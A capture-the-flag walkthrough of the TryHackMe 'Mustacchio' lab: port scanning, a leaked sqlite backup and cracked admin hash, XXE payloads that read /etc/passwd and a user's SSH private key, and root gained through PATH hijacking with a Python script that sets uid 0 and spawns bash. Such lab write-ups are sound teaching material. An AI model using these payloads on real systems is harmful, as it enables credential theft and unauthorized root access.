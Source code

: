------------------

### CTF: TRYHACKME
### LAB: Mustacchio

-------------------

![image](https://github.com/user-attachments/assets/b33c41e4-76fc-4120-956a-9aeb427d278a)


-------------------

### Reconnaissance

- Rustscan's output

      ❯ rustscan -a 10.10.158.4 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      🌍HACK THE PLANET🌍
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.158.4:22
      Open 10.10.158.4:80
      Open 10.10.158.4:8765
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 09:33 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 09:33
      Completed NSE at 09:33, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 09:33
      Completed NSE at 09:33, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 09:33
      Completed NSE at 09:33, 0.00s elapsed
      Initiating Ping Scan at 09:33
      Scanning 10.10.158.4 [2 ports]
      Completed Ping Scan at 09:33, 0.16s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 09:33
      Completed Parallel DNS resolution of 1 host. at 09:33, 0.01s elapsed
      DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 09:33
      Scanning 10.10.158.4 [3 ports]
      Discovered open port 22/tcp on 10.10.158.4
      Discovered open port 8765/tcp on 10.10.158.4
      Discovered open port 80/tcp on 10.10.158.4
      Completed Connect Scan at 09:33, 0.16s elapsed (3 total ports)
      Initiating Service scan at 09:33
      Scanning 3 services on 10.10.158.4
      Completed Service scan at 09:33, 11.55s elapsed (3 services on 1 host)
      NSE: Script scanning 10.10.158.4.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 09:33
      Completed NSE at 09:33, 5.23s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 09:33
      Completed NSE at 09:33, 0.60s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 09:33
      Completed NSE at 09:33, 0.01s elapsed
      Nmap scan report for 10.10.158.4
      Host is up, received syn-ack (0.15s latency).
      Scanned at 2024-08-15 09:33:02 EDT for 17s
      
      PORT     STATE SERVICE REASON  VERSION
      22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2WTNk2XxeSH8TaknfbKriHmaAOjRnNrbq1/zkFU46DlQRZmmrUP0uXzX6o6mfrAoB5BgoFmQQMackU8IWRHxF9YABxn0vKGhCkTLquVvGtRNJjR8u3BUdJ/wW/HFBIQKfYcM+9agllshikS1j2wn28SeovZJ807kc49MVmCx3m1OyL3sJhouWCy8IKYL38LzOyRd8GEEuj6QiC+y3WCX2Zu7lKxC2AQ7lgHPBtxpAgKY+txdCCEN1bfemgZqQvWBhAQ1qRyZ1H+jr0bs3eCjTuybZTsa8aAJHV9JAWWEYFegsdFPL7n4FRMNz5Qg0BVK2HGIDre343MutQXalAx5P
      |   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCEPDv6sOBVGEIgy/qtZRm+nk+qjGEiWPaK/TF3QBS4iLniYOJpvIGWagvcnvUvODJ0ToNWNb+rfx6FnpNPyOA0=
      |   256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGldKE9PtIBaggRavyOW10GTbDFCLUZrB14DN4/2VgyL
      80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
      | http-robots.txt: 1 disallowed entry 
      |_/
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      | http-methods: 
      |_  Supported Methods: GET HEAD POST OPTIONS
      |_http-title: Mustacchio | Home
      8765/tcp open  http    syn-ack nginx 1.10.3 (Ubuntu)
      |_http-server-header: nginx/1.10.3 (Ubuntu)
      |_http-title: Mustacchio | Login
      | http-methods: 
      |_  Supported Methods: GET HEAD POST
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


- Port 80|`http` reveals a web page

![image](https://github.com/user-attachments/assets/047a0826-3340-425a-878e-fe80208de044)

- Port 8765 shows an admin login page

![image](https://github.com/user-attachments/assets/0ccdc4e4-0290-4060-95de-c164d7f628f3)

- Checking the port 80's `custom/js` directory listing  reveals a `user.bak` file

![image](https://github.com/user-attachments/assets/084d64d6-96f6-48d4-8f93-bd4d154c1296)

- Checking the file type with `file <filename>` shows that it is an sqlite3 db

![image](https://github.com/user-attachments/assets/88e40da0-f3f5-4371-96ac-0b4674bf27cb)

------------------------------

### Reading the file with sqlite3 

- I used the `sqlite3` binary to open the db, and `.open <db's name>` to open it

![image](https://github.com/user-attachments/assets/3ed90e5d-6f56-472a-9a30-d42a0c58c506)

- I guessed the table and tried `select * from users;` which worked and showed a username and hash

![image](https://github.com/user-attachments/assets/b382fda7-3da0-45ad-94cc-1645d67ed2e6)

------------------------------

### Cracking the admin's hash with crackstation

- I cracked the hash with [Crackstation.net](https://crackstation.net/)

![image](https://github.com/user-attachments/assets/8805f1c1-c41a-4889-a3ea-cbb1aa87350e)

- Admin access

![image](https://github.com/user-attachments/assets/63748d4b-f958-47e7-929e-e9aed80c393b)

---------------------------------

### XML EXTERNAL ENTITY to file read

- I checked the source code and found that the textbox allows only xml input.There is also an hint that `user:barry` has a private ssh key. We can test for XXE and try to read Barry's ssh private key.

![image](https://github.com/user-attachments/assets/2bd6788e-42ed-4087-92de-293e3e35c173)

- The file highlighted shows the xml syntax for the textbox

  ![image](https://github.com/user-attachments/assets/fb075e29-8e18-47a9-ad0e-8abec4a34943)

- We will be testing this payload to see if we can read the `/etc/passwd` file

      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
      <comment>
        <name>Joe Hamd</name>
        <author>Barry Clad</author>
        <com>&example;</com>
      </comment>

- It worked

![image](https://github.com/user-attachments/assets/d426b918-4937-49d7-b25d-24e3a4fc4072)

- The ssh key should be in this file path `file:///home/barry/.ssh/id_rsa`
      
      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY example SYSTEM "/home/barry/.ssh/id_rsa"> ]>
      <comment>
        <name>Joe Hamd</name>
        <author>Barry Clad</author>
        <com>&example;</com>
      </comment>

- Now we have the key

![image](https://github.com/user-attachments/assets/f11aac76-05f7-4259-8437-88e15db350c0)

- I tried to ssh to the host as user `barry` with the private key but it presented a need for passphrase

![image](https://github.com/user-attachments/assets/b4fb4e65-2569-4640-af7b-341a2886ea7c)

- I cracked it with john the ripper but I used `--show` because I have cracked the hash.

![image](https://github.com/user-attachments/assets/2dbacc73-c045-415b-b977-126b0e101b69)

- SSH Access

![image](https://github.com/user-attachments/assets/c71fdd23-148b-40ad-9972-d79fa6988efa)

------------------------

### Privilege Escalation with path hijacking

- I checked for suid binaries with `find  / -type f -perm -u=s 2</dev/null` and got one `home/joe/live_log`

![image](https://github.com/user-attachments/assets/60101168-04c2-4bd2-825a-ee61735d2aec)

- I checked the binary with `strings /home/joe/live_log`. I noticed that the binary runs `tail` without specifying the path. We can hijack the path and force suid binary to run our malicious binary.

![image](https://github.com/user-attachments/assets/05a860e3-bd88-4e98-85f6-b6773200774c)

- Our malicious tail file,don't forget to `chmod +x`,this python will set our uid to 0 and spawn a `bash` shell

      #! /usr/bin/env python3 
      print("Malicious me")
      import os
      os.setuid(0)
      os.setgid(0)
      os.system("/bin/bash")

- We will add `/tmp` as a directory for the server to check for binaries before proceeding to `/usr/bin/` with `export PATH=/tmp:$PATH`.

![image](https://github.com/user-attachments/assets/0fb8b7f4-5281-447c-bacf-46d941ca58d7)

- Root

![image](https://github.com/user-attachments/assets/45d93e22-1111-4e80-8e48-2edae2823492)

----------------------

### THANKS FOR READING  


  









